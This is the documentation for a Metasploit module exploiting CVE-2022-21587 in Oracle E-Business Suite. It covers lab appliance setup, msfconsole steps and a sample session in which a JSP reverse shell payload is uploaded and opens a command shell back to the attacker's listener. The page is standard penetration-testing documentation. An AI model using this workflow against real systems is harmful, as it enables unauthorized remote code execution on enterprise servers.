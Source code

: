 ## Vulnerable Application

This module exploits CVE-2022-21587, an arbitrary file upload vulnerability in Oracle
Web Applications Desktop Integrator as shipped with Oracle E-Business Suite (EBS) versions
12.2.3 through to 12.2.11.

The exploit uploads a Java Server Page (JSP) payload in order to achieve code execution and
by default will use the `java/jsp_shell_reverse_tcp` payload.

The Oracle EBS product is shipped as either a standalone appliance based on Linux, or an self
hosted application supporting multiple platforms, including Linux, Windows, Solaris, AIX and
HP-UP. This exploit module has been tested against the Linux based appliance, specifically
version 12.2.10.

A full technical analysis of the vulnerability can be found on
[AttackerKB](https://attackerkb.com/topics/Bkij5kK1qK/cve-2022-21587/rapid7-analysis).

## Target Setup

To setup the Oracle EBS appliance, you must download the appliance files, rebuild the appliance
image and install the appliance as a [VirtualBox](https://www.virtualbox.org/) virtual machine.

* Register an account at [Oracle E-Delivery](https://edelivery.oracle.com/osdc/faces/SoftwareDelivery)
and login to search for the required software, specifically the `Oracle VM Virtual Appliance for
Oracle E-Business Suite`.

* You will be presented with multiple ZIP files to download. These files will be extracted and
concatenated to create a single 70 GB Oracle Virtual Appliance (OVA) file. Instructions on how
to do this, as well as additional configuration instructions, can be found in the extracted
documentation located in `\V1005962-01\Documents\Oracle VM Virtual Appliance for Oracle E-Business
Suite Deployment Guide_Release 12.2.10.html`. Additionally a step by step guide for installation
and setup is available [here](https://blog.rishoradev.com/2021/04/12/oracle-ebs-r12-on-virtualbox/).

* Import the OVA file into VirtualBox. Once this is completed you may power on the virtual appliance.
You will require around 320 GB of hard disk space to complete this operation. Note, issues were encountered
if the IP address for the appliance changed after the initial install. It is recommended to use either a
static IP address or ensure your DHCP server provides the same address to the appliance.

* Follow the instructions displayed in the console to set the default passwords for the `root`
and `oracle` and `applmgr` user accounts.

* Once installation and setup has been completed, you can SSH into the appliance as the user
`oracle` and start the database and application services with the following commands:

```
cd /u01/install/APPS/scripts/
./startdb.sh
./startapps.sh
```

* You can now access the WebLogic server over HTTP port `8000`.

## Verification Steps

From msfconsole perform the following steps:

1. `use exploit/linux/http/oracle_ebs_rce_cve_2022_21587`
2. Set `RHOST` to the target address and `RPORT` to the target port. The default `RPORT` is 8000 for
HTTP and 4443 for HTTPS. If using HTTPS set `SSL` to `true`.
3. Set `LHOST` and `LPORT` values for the default `java/jsp_shell_reverse_tcp` payload.
4. `check` to ensure the target is vulnerable.
5. `exploit`
6. Verify a command session has been opened and you can execute commands as the `oracle` user.

## Scenarios

### Oracle E-Business Suite 12.2.10 Linux based appliance

```
msf6 > use exploit/linux/http/oracle_ebs_rce_cve_2022_21587 
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > show options

Module options (exploit/linux/http/oracle_ebs_rce_cve_2022_21587):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                       oit/basics/using-metasploit.html
   RPORT    8000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Oracle EBS on Linux



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set RHOST 192.168.86.37
RHOST => 192.168.86.37
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set LHOST 192.168.86.5
LHOST => 192.168.86.5
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > check
[*] 192.168.86.37:8000 - The target appears to be vulnerable. Oracle EBS version 12.2.10 detected.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > exploit

[*] Started reverse TCP handler on 192.168.86.5:4444 
[*] Targeting the endpoint: /OA_HTML/BneUploaderService
[*] Triggering the payload...
[+] Deleted /u01/install/APPS/fs1/FMW_Home/Oracle_EBS-app1/applications/forms/forms/ygrne.jsp
[*] Command shell session 1 opened (192.168.86.5:4444 -> 192.168.86.37:59288) at 2023-02-10 12:20:43 +0000

id
uid=54321(oracle) gid=54321(oinstall) groups=54321(oinstall),54322(dba) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux apps 3.10.0-1160.11.1.el7.x86_64 #1 SMP Tue Dec 15 11:58:45 PST 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.37 - Command shell session 1 closed.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) >
```
